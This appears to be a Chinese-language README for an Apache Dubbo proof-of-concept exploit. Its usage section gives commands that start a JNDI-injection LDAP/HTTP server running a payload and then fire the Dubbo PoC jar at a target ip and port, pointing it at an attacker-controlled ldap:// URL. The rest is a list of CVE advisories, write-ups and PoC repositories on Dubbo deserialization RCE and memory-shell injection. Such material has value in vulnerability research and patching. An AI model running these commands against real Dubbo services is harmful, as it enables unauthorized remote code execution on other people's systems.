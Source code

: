 
## 用法
```bash
启动ldap服务和HTTP服务：

java -jar C:\Users\Administrator\Downloads\JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C calc

java -jar Dubbo-PoC-Spring-2.7.7.jar ip port ldap://ip:port/test
```


## CVEs

- [Dubbo多个远程代码执行漏洞 by rebeyond](https://mp.weixin.qq.com/s/B1bltJcdrH-B-iN2p0csqA)
- [【漏洞通告】Apache Dubbo多个高危漏洞（CVE-2021-25641等）](https://mp.weixin.qq.com/s/vUdsgOSymEzWeAXkfK3Abw)
- https://wx.zsxq.com/dweb2/index/topic_detail/818554241114512
- [Dubbo Consumer脚本注入RCE - CVE-2021-30181](https://threedr3am.github.io/2021/05/30/Dubbo%20Consumer%E8%84%9A%E6%9C%AC%E6%B3%A8%E5%85%A5RCE%20-%20CVE-2021-30181/)
- [CVE-2021-30179 - Dubbo Pre-auth RCE via Java deserialization in the Generic filter](https://threedr3am.github.io/2021/06/01/CVE-2021-30179%20-%20Dubbo%20Pre-auth%20RCE%20via%20Java%20deserialization%20in%20the%20Generic%20filter/)
- https://securitylab.github.com/research/apache-dubbo/
- https://securitylab.github.com/advisories/GHSL-2021-097-apache-dubbo/
- [浅析Dubbo Kryo/FST反序列化漏洞（CVE-2021-25641）](https://www.mi1k7ea.com/2021/06/30/%E6%B5%85%E6%9E%90Dubbo-KryoFST%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%EF%BC%88CVE-2021-25641%EF%BC%89/)
- https://checkmarx.com/blog/technical-blog/the-0xdabb-of-doom-cve-2021-25641/
- [dubbo中使用hessian_http/dubbo协议注入内存马](https://jianfensec.com/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95/dubbo%E6%B3%A8%E5%85%A5%E5%86%85%E5%AD%98%E9%A9%AC/)
- https://github.com/lz2y/DubboPOC/blob/main/src/main/java/top/lz2y/vul/CVE202130179.java
- https://securitylab.github.com/advisories/GHSL-2021-094-096-apache-dubbo/
- https://securitylab.github.com/advisories/GHSL-2021-034_043-apache-dubbo/
- https://github.com/threedr3am/dubbo-exp
- https://github.com/Firebasky/Java/tree/main/Dubbo
- [谁在使用 Dubbo](https://github.com/apache/dubbo/issues/1012)
- [谁在使用 Dubbo3](https://github.com/apache/dubbo/issues/9436)
- https://github.com/X1r0z/CVE-2023-23638
- https://github.com/lz2y/DubboPOC/blob/main/src/main/java/top/lz2y/vul/CVE202323638.java
